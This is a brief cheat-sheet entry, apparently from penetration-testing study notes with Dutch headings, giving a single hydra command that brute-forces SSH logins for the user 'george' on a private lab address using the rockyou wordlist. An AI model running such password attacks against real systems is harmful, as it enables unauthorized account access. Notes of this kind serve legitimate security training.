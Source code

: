 # 16.Password Attacks — Entry 1

## Categorie

SSH Attack

## Commando

```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

## Omschrijving

Brute-force attack met Username

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

